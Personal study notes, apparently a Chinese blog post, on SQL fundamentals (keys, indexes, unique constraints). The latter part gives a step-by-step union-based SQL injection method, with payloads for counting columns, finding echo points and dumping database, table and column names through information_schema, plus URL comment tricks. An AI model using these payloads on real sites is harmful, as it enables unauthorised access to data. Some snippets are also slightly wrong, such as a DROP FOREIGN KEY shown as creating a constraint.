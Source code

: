 ```yaml
---
title: SQL
abbrlink: 4d712855
date: 2024-02-24 17:15:51
tags: 知识
---
```



**`2022`年`3`月`27`日学习`SQL`，共耗时：`4`小时**
**学习资料：[SQL教程](https://www.liaoxuefeng.com/wiki/1177760294764384/1179611432985088)**

姑且粗浅了解一下SQL，之后要用或者有时间再细学

#### 基本概念

**字段：**数据项，对应为数据库里的列

**记录：**一条由一系列字段组合成的数据，对应为数据库里的行

**主键：**用于对一条记录的唯一字段标识，一般用`id`或`GUID类型`

**联合主键：**多条字段设置为主键（不常用）

**外键：**用于关联另一个表，使用外键约束会降低数据库的性能，外键约束构造：

```SQL
ALTER TABLE students
DROP FOREIGN KEY fk_class_id;
```

**索引：**索引用于快速检索记录，主键是最典型的索引，也可以设置多个索引提高查询效率，索引字段多用hash算法来构造，所以散列值越多，冲突越少，查询效率越高
创建索引：

```SQL
ALTER TABLE students
ADD INDEX idx_score (score);
```

索引的优点是提高了**查询效率**，缺点是在插入、更新和删除记录时，需要同时修改索引，因此，索引越多，插入、更新和删除记录的速度就越慢。

创建唯一索引（不可重复）：

```SQL
ALTER TABLE students
ADD UNIQUE INDEX uni_name (name);
```

添加唯一约束但是不创建索引：

```SQL
ALTER TABLE students
ADD CONSTRAINT uni_name UNIQUE (name);
```

1. 找参数，判断字符型还是数字型
   
```SQL
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";  # 数字
```

2. 判断字段数`order by 4`
3. 判断回显点`union select 1,2,3`
4. 判断数据库名`union select 1,2,database()`，表名`union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='库名'(或者最后加limit语句来获取指定的表)`，列名`union select 1,2,group(column_name) from information_schema.columns where table_name='表名'`
5. 显示列内容`union select 1,2,group_concat(列名) from 表名`

网页SQL语句其实是php代码中的SQL，所以会有类似$id等参数引用来通过get获取

url中添加注释：
--+ 或者 --%20 或者 %23 ，不能用#

limit语句
group_concat()显示所有的内容，但是可能会受到现实的字数限制
